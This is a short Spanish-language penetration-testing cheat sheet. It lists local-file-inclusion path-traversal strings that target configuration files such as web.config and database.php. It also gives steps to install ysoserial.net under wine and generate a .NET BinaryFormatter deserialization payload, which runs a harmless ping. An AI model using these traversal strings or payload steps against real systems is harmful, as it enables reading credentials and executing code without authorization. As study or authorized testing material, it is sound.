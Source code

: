 

# LFI
### ARCHIVOS COMUNES DE CONFIGURACIÓN
```txt
../web.config
....//web.config
./php.config
./config.php
./database.php
./database.conf
```



# DESERIALIZACIÓN -> RCE
### PASOS PARA HACER EL ATAQUE
```shell
#INSTALL
sudo apt install mono-complete wine winetricks -y
❯ wget https://github.com/pwntester/ysoserial.net/releases/download/v1.36/ysoserial-1dba9c4416ba6e79b6b262b758fa75e2ee9008e9.zip
❯ unzip ysoserial-1dba9c4416ba6e79b6b262b758fa75e2ee9008e9.zip
❯ winetricks dotnet48
❯ sudo dpkg --add-architecture i386 && apt-get update && apt-get install wine32:i386

#RUN
❯ cd Release
❯ winetricks dotnet48
❯ wine ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "ping 127.0.0.1"
```

*ERRORES EN LA INSTALACIÓN*
```shell
❯ sudo rm /etc/apt/sources.list.d/google.list
❯ sudo apt update
❯ sudo dpkg --add-architecture i386
❯ sudo apt update
❯ sudo apt install wine
```
